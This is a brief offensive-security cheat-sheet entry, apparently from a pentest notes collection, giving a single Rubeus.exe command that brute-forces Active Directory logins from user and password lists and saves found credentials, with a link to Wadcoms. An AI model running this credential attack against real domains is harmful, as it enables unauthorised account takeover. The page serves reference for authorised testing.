 # Rubeus

`C:\> Rubeus.exe /users:users.txt /passwords:passwords.txt /domain:<domain_name> /outfile:credentials.txt`

---
## References

- [Wadcoms: Rubeus Brute](https://wadcoms.github.io/wadcoms/Rubeus-Brute/)